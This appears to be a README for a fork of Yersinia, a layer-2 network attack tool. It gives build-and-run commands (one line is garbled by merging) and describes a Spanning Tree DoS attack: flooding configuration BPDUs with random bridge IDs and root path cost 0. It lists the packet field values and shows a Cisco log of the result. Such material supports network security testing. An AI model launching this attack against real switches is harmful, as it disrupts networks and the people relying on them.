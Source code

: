 command to install & Run Tool :

sudo apt update && apt upgrade -y
sudo apt install gettext autopoint libtool -y
sudo apt install libnet1 libnet1-dev -y
sudo make installsudo apt install libgtk2.0-dev pkg-config -y
git clone https://github.com/amierattia/yersinia.git
cd  yersinia
autoupdate
autoreconf -i
./configure
make
cd src 
sudo ./yersinia -G



[![Build Status](https://travis-ci.org/tomac/yersinia.svg?branch=master)](https://travis-ci.org/tomac/yersinia)

Spanning Tree
-------------

# 1: DOS attack sending conf BPDUs

    Let's send some conf BPDUs claiming be root!!! By sending continously conf BPDU with root pathcost 0, randomly
    generated bridge id (and therefore the same root id), and some default values for other fields, we try to 
    annoy the switches close to us, causing a DoS when trying to parse and recalculate their STP engines.

    Source MAC: randomly generated.
    Destination MAC: 01:80:c2:00:00:00
    Bridge ID: 8000:source_mac
    Root ID: 8000:source_mac
    Hello time: 2
    Forward delay: 15
    Max age: 20
    Root pathcost: 0

    <output from the cisco log>
    01:20:26: STP: VLAN0001 heard root 32768-d1bf.6d60.097b on Fa0/8
    01:20:26: STP: VLAN0001 heard root 32768-9ac6.0f72.7118 on Fa0/8
    01:20:26: STP: VLAN0001 heard root 32768-85a3.3662.43dc on Fa0/8
    01:20:26: STP: VLAN0001 heard root 32768-3d84.bc1c.918e on Fa0/8
    01:20:26: STP: VLAN0001 heard root 32768-b2e2.1a12.dbb4 on Fa0/8
    01:20:26: STP: VLAN0001 heard root 32768-4ba6.2d45.5844 on Fa0/8
    01:20:26: STP: VLAN0001 heard root 32768-deb0.4f14.7288 on Fa0/8
    01:20:26: STP: VLAN0001 heard root 32768-4879.8036.0e24 on Fa0/8
    01:20:26: STP: VLAN0001 heard root 32768-2776.e340.9222 on Fa0/8
    01:20:26: STP: VLAN0001 heard root 32768-299e.de76.c07d on Fa0/8
    01:20:26: STP: VLAN0001 heard root 32768-d38b.bc5b.e90d on Fa0/8
    01:20:26: STP: VLAN0001 heard root 32768-78ee.0205.afdb on Fa0/8
    01:20:26: STP: VLAN0001 heard root 32768-b32b.e969.81b1 on Fa0/8
    01:20:26: STP: VLAN0001 heard root 32768-b16b.c428.88a3 on Fa0/8
    01:20:26: STP: VLAN0001 heard root 32768-dd01.1436.9044 on Fa0/8
    </output>
